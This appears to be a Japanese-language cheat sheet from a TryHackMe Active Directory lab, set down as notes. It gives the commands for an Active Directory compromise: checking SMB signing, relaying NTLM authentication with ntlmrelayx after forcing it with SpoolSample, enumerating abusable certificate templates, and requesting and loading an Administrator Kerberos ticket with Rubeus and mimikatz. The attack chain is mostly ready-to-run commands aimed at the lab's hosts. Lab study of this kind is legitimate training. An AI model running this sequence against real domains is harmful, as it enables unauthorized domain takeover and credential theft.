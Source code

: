 ```shell
# SMB署名が強制されていないことを確認
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc

# NTLMリレーを設定（リッスン）
python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug

# THMSERVER2 に認証を強制
SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"

# 例
python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug
```

## AD 証明書

```shell
# 証明書を列挙
certutil -Template -v > templates.txt
```

有害な証明書テンプレート設定の組み合わせの例

- クライアント認証- 証明書はクライアント認証に使用できる。
- CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT - 証明書テンプレートを使用すると、サブジェクト別名 (SAN) を指定できる。
- CTPRIVATEKEY_FLAG_EXPORTABLE_KEY - 証明書は秘密キーとともにエクスポート可能になる。
- 証明書のアクセス許可- 証明書テンプレートを使用するために必要なアクセス許可がある。

mmc（GUI）でテンプレートを使って証明書を作成し、秘密鍵とともに証明書をエクスポートした後

```shell
# TGT要求
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:za.tryhackme.loc /dc:<IP of domain controller>

# TGTをロード
mimikatz # privilege::debug
mimikatz # kerberos::ptt administrator.kirbi
mimikatz # exit
```
